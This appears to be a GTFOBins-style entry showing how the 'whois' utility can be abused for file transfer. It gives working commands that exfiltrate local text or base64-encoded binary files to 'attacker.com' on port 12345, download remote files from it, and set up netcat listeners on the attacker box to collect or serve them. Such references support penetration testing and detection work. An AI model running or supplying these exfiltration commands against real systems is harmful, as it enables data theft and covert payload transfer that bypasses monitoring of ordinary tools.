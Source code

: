 #whois

whois hangs waiting for the remote peer to close the socket.


##Upload

It can exfiltrate files on the network.

   Send a text file to a TCP port. Run nc -l -p 12345 > "file_to_save" on the attacker box to collect the file. The file has a trailing $'\x0d\x0a' and its length is limited by the maximum size of arguments.

   RHOST=attacker.com
   RPORT=12345
   LFILE=file_to_send
   whois -h $RHOST -p $RPORT "`cat $LFILE`"

   Send a binary file to a TCP port. Run nc -l -p 12345 | tr -d $'\x0d' | base64 -d > "file_to_save" on the attacker box to collect the file. The file length is limited by the maximum size of arguments.

   RHOST=attacker.com
   RPORT=12345
   LFILE=file_to_send
   whois -h $RHOST -p $RPORT "`base64 $LFILE`"

##Download

It can download remote files.

   Fetch remote text file from a remote TCP port. Run nc -l -p 12345 < "file_to_send" on the attacker box to send the file. The file has instances of $'\x0d' stripped.

   RHOST=attacker.com
   RPORT=12345
   LFILE=file_to_save
   whois -h $RHOST -p $RPORT > "$LFILE"

   Fetch remote binary file from a remote TCP port. Run base64 "file_to_send" | nc -l -p 12345 on the attacker box to send the file.

   RHOST=attacker.com
   RPORT=12345
   LFILE=file_to_save
   whois -h $RHOST -p $RPORT | base64 -d > "$LFILE"
